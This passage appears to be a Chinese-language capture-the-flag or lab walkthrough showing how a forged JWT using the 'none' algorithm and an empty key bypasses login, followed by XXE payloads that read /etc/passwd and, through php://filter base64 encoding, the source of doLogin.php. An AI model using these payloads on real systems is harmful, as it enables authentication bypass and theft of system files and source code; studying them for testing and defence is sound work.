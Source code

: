 ```
import jwt
token = jwt.encode(`{`"id":"user","iat":"1588902740", "jti": "cd811589c43d3d507c64b14a6f64e8d8"`}`,algorithm="none",key="").decode(encoding='utf-8')
print(token)
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t0176fa15061c5ee800.png)

（在这里，细心的话会发现JWT的第三部分是空的，因为签名算法为None，密钥Key为空）

利用生成伪造的user身份的Token替换原有Token进行伪造用户验证

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01d71fc7bc1064f211.png)

伪造的用户user通过验证，进入用户登录界面，查看源码，发现存在用户名和密码通过XML进行处理

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t015c00d72b01678322.png)

直接抓包进行XXE漏洞的探测，构造XXE Payload进行敏感文件的读取

```
&lt;!DOCTYPE message [
    &lt;!ENTITY file SYSTEM "file:///etc/passwd"&gt;
]&gt;
&lt;user&gt;&lt;username&gt;&amp;file;&lt;/username&gt;&lt;password&gt;66666&lt;/password&gt;&lt;/user&gt;
```

利用payload探测发现内容读取的文件正常回显，并且没有对用户的输入进行过滤

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01816556dc99a6bdc4.png)

既然存在XXE漏洞且不存在过滤，尝试读取源码doLogin.php

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01e8afe4481e2cc428.png)

从结果分析，存在xxe漏洞为什么读取不了呢，这里就需要注意了，php文件的格式`&lt;?php ?&gt;`类似XML文件`&lt;?xml ?&gt;`，如果不做处理直接读取是读不出来的，因为其会把php文件当作xml进行解析导致读取出现问题，既然这样可以使用`php://filter`对文件进行base64编码再显示，这样就不会出现上述问题

再次构造Payload

```
&lt;!DOCTYPE message [
    &lt;!ENTITY file SYSTEM "php://filter/convert.base64-encode/resource=doLogin.php"&gt;
]&gt;
&lt;user&gt;&lt;username&gt;&amp;file;&lt;/username&gt;&lt;password&gt;66666&lt;/password&gt;&lt;/user&gt;
```
